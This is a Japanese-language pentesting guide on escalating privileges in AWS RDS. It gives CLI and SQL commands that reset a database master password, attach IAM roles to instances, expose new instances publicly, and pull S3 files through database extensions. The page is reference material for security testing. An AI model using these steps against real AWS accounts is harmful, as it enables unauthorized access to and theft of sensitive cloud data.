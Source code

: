 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - リレーショナルデータベースサービス

RDSに関する詳細情報は以下を確認してください:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

この権限を持つ攻撃者は**マスターユーザーのパスワードを変更**し、データベース内のログインを行うことができます:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> データベースに**接続する**ことができる必要があります（通常、内部ネットワークからのみアクセス可能です）。

**潜在的な影響:** データベース内の機密情報を見つけること。

### rds-db:connect

[**ドキュメント**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)によると、この権限を持つユーザーはDBインスタンスに接続できます。

### RDSロールIAM権限の悪用

#### Postgresql (Aurora)

> [!TIP]
> **`SELECT datname FROM pg_database;`** を実行すると、**`rdsadmin`** というデータベースが見つかる場合、**AWS postgresqlデータベース**内にいることがわかります。

まず、このデータベースが他のAWSサービスにアクセスするために使用されているかどうかを確認できます。インストールされている拡張機能を見て確認できます:
```sql
SELECT * FROM pg_extension;
```
もし**`aws_s3`**のようなものを見つけた場合、このデータベースは**S3に対する何らかのアクセス権を持っている**と考えられます（**`aws_ml`**や**`aws_lambda`**などの他の拡張子もあります）。

また、**`aws rds describe-db-clusters`**を実行する権限がある場合、**`AssociatedRoles`**フィールドで**クラスターにIAMロールが付与されているかどうか**を確認できます。もしあれば、そのデータベースは**他のAWSサービスにアクセスするために準備されている**と考えられます。**ロールの名前**（またはロールの**権限**を取得できる場合）に基づいて、データベースがどのような追加アクセスを持っているかを**推測**することができます。

さて、**バケット内のファイルを読むためには**、フルパスを知っている必要があります。次のようにして読むことができます:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
もし**生のAWS認証情報**を持っていれば、次のコマンドを使用してS3データにアクセスすることもできます:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **は S3 にアクセスするためにパラメータグループ変数を変更する必要はありません**。

#### Mysql (Aurora)

> [!TIP]
> mysql 内で **`SELECT User, Host FROM mysql.user;`** クエリを実行し、**`rdsadmin`** というユーザーがいる場合、あなたは **AWS RDS mysql db** 内にいると考えることができます。

mysql 内で **`show variables;`** を実行し、**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`** などの変数に値がある場合、データベースは S3 データにアクセスする準備ができていると考えられます。

また、**`aws rds describe-db-clusters`** を実行する権限がある場合、クラスターに **関連するロール** があるかどうかを確認できます。これは通常、AWS サービスへのアクセスを意味します。

今、**バケット内のファイルを読むためには**、フルパスを知っている必要があります。次のようにして読むことができます:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

`rds:AddRoleToDBCluster` および `iam:PassRole` の権限を持つ攻撃者は、**既存の RDS インスタンスに指定されたロールを追加**することができます。これにより、攻撃者は **機密データにアクセス**したり、インスタンス内のデータを変更したりすることができる可能性があります。
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。\
一部のDBは、Mysqlのように、パラメータグループにロールARNを指定する必要があるなど、追加の設定が必要であることに注意してください。

### `rds:CreateDBInstance`

この権限だけで、攻撃者は**既存のクラスター内に新しいインスタンス**を作成でき、**IAMロール**が添付されている場合があります。マスターユーザーパスワードを変更することはできませんが、新しいデータベースインスタンスをインターネットに公開できる可能性があります。
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: テスト

`rds:CreateDBInstance` と `iam:PassRole` の権限を持つ攻撃者は、**指定されたロールを添付して新しい RDS インスタンスを作成**できます。攻撃者はその後、**機密データにアクセス**したり、インスタンス内のデータを変更したりする可能性があります。

> [!WARNING]
> 添付するロール/インスタンスプロファイルのいくつかの要件（[**こちら**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)から）:

> - プロファイルはあなたのアカウントに存在しなければなりません。
> - プロファイルには、Amazon EC2 が引き受ける権限を持つ IAM ロールが必要です。
> - インスタンスプロファイル名と関連する IAM ロール名は、プレフィックス `AWSRDSCustom` で始まる必要があります。
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

`rds:AddRoleToDBInstance`および`iam:PassRole`の権限を持つ攻撃者は、**既存のRDSインスタンスに指定されたロールを追加**することができます。これにより、攻撃者は**機密データにアクセス**したり、インスタンス内のデータを変更したりすることが可能になります。

> [!WARNING]
> DBインスタンスは、これを行うためにクラスターの外にある必要があります。
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**潜在的な影響**: RDSインスタンス内の機密データへのアクセスまたはデータの不正な変更。 

{{#include ../../../banners/hacktricks-training.md}}
